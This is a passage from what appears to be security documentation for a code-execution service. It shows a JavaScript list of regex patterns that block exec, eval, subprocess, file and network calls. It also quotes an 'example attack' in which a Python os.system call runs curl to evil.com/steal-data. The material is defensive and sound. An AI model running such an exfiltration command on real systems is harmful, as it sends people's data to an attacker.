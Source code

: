 ## 🔍 Layer 7: Application Security

### Input Validation and Sanitization

**Code Pattern Detection:**
```javascript
// src/middleware/security.js
const dangerousPatterns = [
  // System access
  /\bexec\s*\(/i,
  /\beval\s*\(/i,
  /\bos\.system\s*\(/i,
  /\bsubprocess\s*\./i,

  // File system access
  /\bopen\s*\(/i,
  /\bfile\s*\(/i,
  /\breadlines\s*\(/i,

  // Network access
  /\brequests\s*\./i,
  /\burllib\s*\./i,
  /\bfetch\s*\(/i,
  /\bXMLHttpRequest/i,

  // Infinite loops
  /\bwhile\s*\(\s*true\s*\)/i,
  /\bfor\s*\(\s*;\s*;\s*\)/i,

  // Process creation
  /\brequire\s*\(\s*['"]child_process['"]\s*\)/i,
  /\b__import__\s*\(\s*['"]subprocess['"]\s*\)/i,

  // Dangerous imports
  /\bimport\s+os\b/i,
  /\bfrom\s+os\s+import/i,
];
```

**Why This Matters:**
- **Primary Defense**: Blocks obviously malicious code before execution
- **Performance**: Faster than runtime detection
- **Logging**: Helps identify attack patterns

**Example Attack Blocked:**
```python
# ❌ This would be blocked at input validation
import os
os.system("curl http://evil.com/steal-data")
```

### Request Size Limits
